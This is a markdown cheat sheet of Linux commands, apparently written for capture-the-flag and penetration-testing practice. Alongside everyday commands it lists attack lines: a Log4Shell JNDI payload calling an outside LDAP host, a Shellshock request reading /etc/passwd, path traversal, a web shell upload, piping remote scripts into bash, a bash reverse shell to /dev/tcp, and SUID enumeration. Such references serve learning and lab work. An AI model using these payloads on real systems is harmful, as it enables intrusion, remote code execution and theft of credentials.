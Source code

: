 # Linux commands

## Summary
* [Basic commands](#basic-commands)
* [Service commands](#service-commands)
* [Networking commands](#networking-commands)
* [Curl](#curl)
* [GCC to CC](#gcc-to-cc)
* [Shells](#shells)

### Basic commands
```
whoami - prints information about users
su - switch user
pwd - print working directory
cd - change directory
ls - list directory
mkdir - create a directory
rmdir - remove a directory
touch - create a file
rm - remove a file or directory
cp - copy a file or directory
scp - securely copy files or directories between two system
mv - rename or move a file or directory
cat - prints the contents of a file
less - show the contents of a file
clear - clear the terminal
tree - display folder structure
nano - open a text editor
grep - show the lines matching pattern
tr - replace the characters with other set of characters
cut - extract characters, fields from a file
chown - change the ownership of a file or directory
chmod - change the mode of a file or directory
/etc/shadow - where user passwords are stored
/etc/passwd - where user informations are stored
unzip [file] - unzip a zip file  //   7z e [file]  {alternative}
grep -iR [keyword] [directory path] 2>/dev/null {search for specific keyword in a directory}
rm *[strings]* - delete all files with particular strings
tar -xvf [tar file] - unzipping tar file
echo "[text]" | sudo tee -a [file name]  -add text to a file
wget --user=[username] --password=[password] [url] -- download file from website
gpg --import [private gpg file]
gpg --decrypt [gpg message block]
gpg --decrypt-file [gpg message block]
hostname
uname -a
/proc/version
/etc/issue
ps -A
ps aux
ps axjf
env
sudo -l
id
/etc/passwd | cut -d ":" -f 1
/etc/passwd | grep home
history
ss -ltp {for listening services} 
ip route
netstat -l   {for listening services}
netstat -at / -au  {for tcp or udp}
netstat -a   {for listening and established connection}
netstat -s
netstat -tp 
netstat -i
netstat -ano
netstat -ant
netstat -anu
ltrace /usr/bin/nano --> find out more about a program's binary
rpcinfo -p | grep nfs --> see what port rpc is running on
find / -type f -perm -04000 -ls 2>/dev/null: list files with suid & sgid bit set
find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory
find / -type d -name config: find the directory named config under “/”
find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x: find executable files
find /home -user frank: find all files for user “frank” under “/home”
find / -mtime 10: find files that were modified in the last 10 days
find / -atime 10: find files that were accessed in the last 10 day
find / -cmin -60: find files changed within the last hour (60 minutes)
find / -amin -60: find files accesses within the last hour (60 minutes)
find / -size 50M: find files with a 50 MB size
find / -size +50M: find files that is larger than 50 MB size
find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
find / -type f -group users 2>/dev/null:Find files with a specific group id which in this case is users
find / -name '*[name]*' -type f 2>/dev/null | grep -ivE "(firefox|firewall)"
grep -R "THM{" * 2>/dev/null --> grab specific words in a file
grep -iR word /path/ 2>/dev/null --> grab specific words in a directory
find / -type f -name "*flag*" 2>/dev/null --> find files with a name
awk '{print $4 ":" $6}' users > userpass --> merge 2 list with a colon
```

### Service commands
```
service apache2 start/stop/restart/status
service postgresql start/stop/restart/status
apt install - installs a package
apt remove - removes a package
apt purge - removes packages with config
apt update - refreshes repository index
apt upgrade - upgrades all upgradable packages
apt autoremove - removes unwanted packages
apt search - searches for programs
apt list - list packages with criteria
```

### Networking commands
```
ping - to see if a network is active
ifconfig - view the configuration of a network interfaces
iwconfig - display and change the parameters of network interfaces
hciconfig - configure bluetooth devices
arp - associates between ip addresses with mac addresses
netstat - displays contents of network related data structures
route - prints the routing table
netdiscover - scan for live hosts in local network
hping3 - display target replies like ping does with ICMP replies.
```

### Curl
#### https://cheatsheet.dennyzhang.com/cheatsheet-curl-a4

Curl logic
```
curl 'http://10.10.189.232:8983/solr/admin/cores?foo=$\{jndi:ldap://10.4.64.135:4444\}'
if there is a $ sign in your url, then you should wrap the url with single quotes
escape out of the {} curly braces with a single backslash character
```
Change HTTP methods
```
curl -X [methods] [url]
```
Send a GET requests
```
curl -i [url]
```
Send a post request
```
curl -i [url] --data '[data]'
```
Set cookie for a request
```
curl -i [url] -b "name:value"
```
Specify HTTP header & sending a POST data
```
curl '[url] -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=[username]&email=[host email]'
```
Cookie tampering with Curl
```
curl [url] -H 'Cookie: logged-in=true; admin=true'
```
Upload files
```
curl [url] -u [creds:creds] --upload-file shell.php
```
Run bash script from local machine on remote machine
```
curl [ip]:[port]/[file name] | bash 
```
Download files
```
curl [url] --output [file]
```
Grep details from requests
```
curl -s [url] | grep img
```
Test for Shellshock vulnerability
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.155.108//cgi-bin/test.cgi
```
Send data as it is
```
curl --path-as-is http://example.com/.././../etc/passwd
```
Enumerate disallow web paths in robots.txt with bash & Curl
```
for i in `curl -s http://wekor.thm/robots.txt | grep Disallow | cut -d " " -f2`;do echo $i;curl -I http://wekor.thm$i;echo "---";done
```
Grep text from specific line & cut a character from the strings
```
curl -s 'http://example.com?page=id_rsa' | tail -n 39 | sed -s "s/#//g"
```

### GCC to CC
```
sed -i "s/gcc/cc/g" [exploit]
cc [exploit] -o [save]
```

### Shells

Stabilise shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Provide terms for shell
```
export TERM=xterm
```
Background a shell and re-enter
```
ctrl + z
stty raw -echo; fg
```
Reset terminal
```
reset
```
Stabilise shell with rlwrap
```
rlwrap nc -lvnp [port]
```
Reverse shell with bash script
```
echo '/bin/bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"' > shell.sh
```
Automate process with bash script
```
for i in {1..100};do nc 127.0.0.1 $i;echo "";done ### this will execute netcat on 100 different ports respectively ###
```
